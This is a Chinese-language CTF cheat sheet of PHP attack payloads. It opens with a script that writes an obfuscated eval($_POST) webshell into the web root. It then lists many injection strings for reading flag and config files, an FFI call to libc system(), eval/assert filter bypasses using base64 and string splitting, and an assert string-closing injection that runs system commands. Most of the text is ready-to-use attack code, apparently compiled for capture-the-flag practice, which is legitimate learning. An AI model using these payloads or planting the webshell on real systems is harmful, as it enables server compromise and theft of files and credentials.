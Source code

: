 在线php运行：<https://www.jyshare.com/compile/1/>

php执行的方式，php -r 不需要php后缀，可能出现题型。
```
php：这是最基本的PHP命令，用于执行指定的PHP脚本文件。例如，php script.php 会执行名为 script.php 的PHP脚本。

php -f：这个命令用于执行一个PHP脚本文件，与不带 -f 参数的 php 命令类似。两者都可以运行给定的PHP文件，没有限制可以执行哪种文件，文件名也不必用 .php 作为扩展名。

php -r：这个命令用于在命令行中直接传递PHP代码执行。必须特别注意shell变量的替代及引号的使用。使用 -r 参数后不需要开始和结束标识符，并且加上它们还会导致语法错误。例如，php -r 'print_r(get_defined_constants());' 会直接执行括号内的PHP代码。

区别：
php 和 php -f 都用于执行PHP脚本文件，但 -f 参数可以明确指示PHP解释器直接从指定的文件中读取并执行代码。
php -r 用于在命令行中直接执行一行或多行PHP代码，而不是从文件中读取。这种方式适合快速测试小段代码或在脚本中嵌入PHP代码。
使用 php -r 时，不需要提供PHP代码的开始和结束标签 <?php ?>，而 php 和 php -f 执行的是完整的PHP脚本文件，这些文件中包含了这些标签。


php -f 配合下面文件进行写木马：
<?php
$a = '<?ph'.'p ev'.'al($_PO'.'ST[1]);?>';
file_put_contents('/var/www/html/1.php',$a);
?>
```

## **php常见特殊函数和绕过**
**文件包含函数 绕过一些禁用函数**
如果是eval($_POST('c'))，直接蚁剑连，用插件绕过
```
c=highlight_file("config.php");        //文件内容包含高亮。
c=highlight_file($_GET[1])&1=flag.php

c=show_source('flag.php');
c=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
c=print_r(scandir(dirname('__FILE__')));
// ( [0] => 。 [1] => .. [2] => flag.php [3] => index.php ) 
c=var_dump(file('flag.php'));
c=readfile('flag.php');
c=print_r(file('flag.php'));
c=show_source(file(''flag.php));
c=echo file_get_contents('flag.php');
c=include('/flag.txt');
c=require('/flag.txt');
c=require_once('/flag.txt');

c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36.txt")') as $row){echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);

```
查目录
```
c=var_dump(scandir('/'));

c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}//glob的作用是规定后面的匹配格式，查找匹配的文件路径模式

c=$a=scandir("/");foreach($a as $key=>$value){echo $key."=>".$value;}

c=var_export(scandir('/'));exit(); 
//停掉后面的限制函数如ob_end_clean()会清除缓冲不会输出内容。会输出很多???????????
c=include('/flag.txt');die();
```
```
print_r(file_get_contents(/flagg')); //打印获取文件的内容
var_dump(scandir(/);  //查看根目录
var_dump(scandir(chr(47))); //查看根目录

var_dump(file_get_contents(/flagg')); //打印获取文件的内容。file_get_content()也可以读取php://filter伪协议。
var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)));  //绕过打印flag
```

根目录下有/readflag程序
```
c=$ffi = FFI::cdef("int system(char *command);", "libc.so.6");$a='/readflag > 1.txt';$ffi->system($a);exit();
然后访问ip/1.txt
```


^
## **代码执行函数**
eval('system('cat /flag'); ');         //会将字符串当作PHP代码执行，注意分号。
eval('system('cat /flag')?> ');    // 分号可以用?>替换。 且后面代码也会正常执行。

```
对于eval($_GET('c'));题

/?c=eval($_GET[a]);&a=system('cat flag.php');  //绕过eval有限制。
/?c=eval($_GET[a])?>&a=system('cat flag.php');  //绕过eval有限制。过滤了;
eval('eval($_GET[a])?>')  

/?c=include"$_GET[a]"?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了(
/?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了( 双引号"
```
eval("$x='sys';  $y='tem';  $z=$x.$y;  $z('cat config.php');" );         //绕过过滤。

eval('base64_decode("c3lzdGVt");$b=base64_decode("Y2F0IGNvbmZpZy5waHA=");$a($b);');        //base64编码绕过。

assert()可以将整个字符串参数当作php参数执行
而类似的eval()函数是执行合法的php代码，eval()里的引号必须是双引号，因为单引号不能解析字符串里的变量$str，且必须以分号结尾，函数调用除外。
```
<?php
echo eval(echo 1);
?>
不行，需改成下面：
<?php
echo eval("echo 1;");
?>
```


^
^
当前目录文件全部看cat *
命令执行找flag文件：find / -name flag*
递归搜当前目录下内容：grep -r "flag{" .

php内的"\"在做代码执行的时候，会识别特殊字符串，绕过黑名单。
如\system


^
## **命令拼接**
```
if (isset($_GET['page'])) {
	$page = $_GET['page'];
} 

$file = "templates/" . $page . ".php";

assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
```
闭合，拼接，注释
```
').phpinfo();//
').system("cat templates/flag.php");//
').system('cat templates/flag.php');//
').system('ls');//
```


^
## **程序在过滤后没有退出，程序还能执行**
```
error_log（"Hacking attempt.");
header（'Location:/error/');

assert（"(int)$pi ==3")
```
没有使用die ，exit等函数，assert还能执行，$pi直接代码执行。